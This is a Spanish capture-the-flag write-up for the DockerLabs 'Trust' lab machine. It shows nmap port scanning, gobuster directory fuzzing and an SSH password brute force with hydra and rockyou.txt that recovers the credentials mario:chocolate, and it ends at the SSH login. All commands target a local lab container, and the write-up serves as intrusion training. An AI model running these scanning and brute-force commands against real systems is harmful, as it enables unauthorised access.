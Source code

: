 ![DockerLabs](https://dockerlabs.es/images/logos/logo.png)

**Autor:** [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

**Dificultad:** Muy Fácil

**Fecha de creación:** 02/04/2024

-------------------------

DESPLIEGUE

```
bash auto_deploy.sh trust.tar
```


![](BLOG-GIT/images/Pasted%20image%2020241120192822.png)


Tenemos la IP: 
```
172.18.0.2
```

-----------------------

RECONOCIMIENTO.

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.18.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos. 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida.  
`-sV` ⮞ Encuentra la versión del servicio abierto. 
`-sC` ⮞ Usa unos scripts de reconocimiento.
`--min-rate 5000` ⮞ para que el reconocimiento vaya más rápido. 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro) .
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla.  
`-Pn` ⮞ Ignora si esta activa o no la IP.  

`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)  (Este no lo usaré).


![](BLOG-GIT/images/Pasted%20image%2020241120193112.png)

Vemos que tiene dos puertos abierto. El 22 y el 80.

Miramos la web. 

![](BLOG-GIT/images/Pasted%20image%2020241120193326.png)

Es una web con el servicio apache. 

Ahora lo que haremos es hacer fuzzing web con gobuster y le metemos un diccionario con las distintas 

``` 
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,sh,php
```

![](BLOG-GIT/images/Pasted%20image%2020241120193855.png)

Parece que nos encontró algo. 

Así que meteré ese directorio en la web. 

Nos sale lo siguiente: 

![](BLOG-GIT/images/Pasted%20image%2020241120194001.png)


Tenemos un posible usuario. 

Así que vamos a intentar hacer fuerza bruta con hydra. 


```
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```


Esperamos unos segundos. 

![](BLOG-GIT/images/Pasted%20image%2020241120194313.png)

Y nos encontró mario:chocolate.

Pues ahora entraremos por el puerto ssh. 

```
ssh mario@172.18.0.2
```


![](BLOG-GIT/images/Pasted%20image%2020241120194452.png)

Y estamos adentro. 
